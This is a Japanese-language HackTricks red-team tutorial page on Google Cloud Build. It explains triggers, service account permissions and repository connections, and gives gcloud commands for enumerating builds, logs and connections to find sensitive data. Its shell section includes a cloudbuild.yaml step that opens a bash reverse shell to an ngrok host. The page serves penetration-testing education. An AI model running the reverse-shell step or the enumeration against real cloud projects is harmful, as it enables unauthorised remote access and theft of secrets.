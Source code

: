 # GCP - Cloud Build Enum

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でゼロからヒーローまでAWSハッキングを学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい場合**や**HackTricksをPDFでダウンロードしたい場合**は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有する。

</details>

## 基本情報

Google Cloud Buildは、**ソフトウェアのビルド**とリリースプロセスを自動化する管理されたCI/CDプラットフォームであり、**ソースコードリポジトリ**と統合し、幅広いプログラミング言語をサポートしています。開発者がコードを自動的にビルド、テスト、デプロイすることを可能にし、ビルドステップとワークフローをカスタマイズする柔軟性を提供します。

各Cloud Buildトリガーは、**Cloudリポジトリに関連しているか、直接外部リポジトリ**（Github、Bitbucket、Gitlab）に接続されています。

{% hint style="success" %}
Github/BitbucketのトークンをここやCloudリポジトリから盗む方法は見つけられませんでした。なぜなら、リポジトリがダウンロードされるときは[https://source.cloud.google.com/](https://source.cloud.google.com/)のURLを介してアクセスされ、Githubはクライアントによってアクセスされないからです。
{% endhint %}

### イベント

Cloud Buildは以下の場合にトリガーされます:

* **ブランチへのプッシュ**: ブランチを指定
* **新しいタグのプッシュ**: タグを指定
* **プルリクエスト**: PRを受け取るブランチを指定
* **手動呼び出し**
* **Pub/Subメッセージ:** トピックを指定
* **Webhookイベント**: HTTPS URLが公開され、リクエストはシークレットで認証される必要があります

### 実行

3つのオプションがあります:

* 実行するコマンドを**指定するyaml/json**。通常は: `/cloudbuild.yaml`
* ウェブコンソールとCLIで「インライン」で指定できる唯一のオプション
* 最も一般的なオプション
* 認証されていないアクセスに関連
* ビルドするための**Dockerfile**
* ビルドするための**Buildpack**

### SA権限

**サービスアカウントは`cloud-platform`スコープを持っており**、すべての権限を**使用できます。** **SAが指定されていない場合**（例えばsubmitを行うとき）、デフォルトのSA `<proj-number>@cloudbuild.gserviceaccount.com`が**使用されます。**

デフォルトでは権限は与えられていませんが、簡単にいくつかの権限を与えることができます:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 承認

ビルド実行に承認が必要なCloud Buildを設定することが可能です（デフォルトでは無効）。

### 接続 & リポジトリ

接続は以下を通じて作成できます:

* **GitHub:** OAuthプロンプトが表示され、**Githubトークン**を取得するための権限を求められます。これは**Secret Manager**内に保存されます。
* **GitHub Enterprise:** **GithubApp**のインストールを求められます。GitHub Enterpriseホストからの**認証トークン**が作成され、このプロジェクトの**Secret Manager**シークレットとして保存されます。
* **GitLab / Enterprise:** **APIアクセストークンとRead APIアクセストークン**を提供する必要があり、これらは**Secret Manager**に保存されます。

接続が生成されると、Githubアカウントがアクセス権を持っているリポジトリをリンクするために使用できます。

このオプションは以下のボタンから利用可能です:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
この方法で接続されたリポジトリは、**2世代目を使用するトリガーでのみ利用可能**であることに注意してください。
{% endhint %}

### リポジトリの接続

これは**`connection`**と同じではありません。これにより、**異なる**方法で**GithubまたはBitbucket**リポジトリにアクセスすることができますが、接続オブジェクトは生成されませんが、リポジトリオブジェクト（1世代目）は生成されます。

このオプションは以下のボタンから利用可能です:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ストレージ

時々、Cloud Buildはトリガーのためにファイルを保存する新しいストレージを**生成することがあります**。これは例えば、GCPが提供する例で起こります:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### シェルを取得

Storageバケットとして[security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox)が作成され、使用するファイルが含まれた`.tgz`を保存します。
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### 列挙

ビルド設定とログに**機密情報**が見つかる可能性があります。
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 権限昇格

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 認証されていないアクセス

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### 攻撃後の活動

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で<strong>AWSのハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
